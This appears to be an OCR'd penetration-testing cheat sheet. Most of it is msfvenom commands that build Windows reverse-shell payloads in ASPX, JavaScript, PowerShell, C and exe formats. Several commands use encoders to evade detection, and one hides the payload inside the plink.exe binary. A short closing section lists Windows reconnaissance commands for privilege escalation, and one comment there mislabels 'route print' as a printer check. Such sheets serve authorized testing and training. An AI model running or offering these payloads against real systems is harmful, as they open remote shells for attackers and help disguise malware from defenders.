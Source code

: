 # Windows ASPX reverse shell
msfvenom -f aspx -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -o shell.aspx

# Windows JavaScript reverse shell with nops  
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f js_le -e generic/none -n 18

# Windows Powershell reverse shell  
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -i 9 -f psh -o shell.ps1

# Windows reverse shell excluding bad characters  
msfvenom -p windows/shell_reverse_tcp -a x86 LHOST=10.10.10.10 LPORT=4443 EXITFUNC=thread -f c -b "\x00\x04" -e x86/shikata_ga_nai

# Windows x64 bit reverse shell  
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f exe -o shell.exe

# Windows reverse shell embedded into plink  
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe
Windows Privilege Escalation
# What system are we connected to?
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"

# Get the hostname and username (if available)
hostname
echo %username%

# Get users
net users
net user [username]

# Networking stuff
ipconfig /all

# Printer?
route print
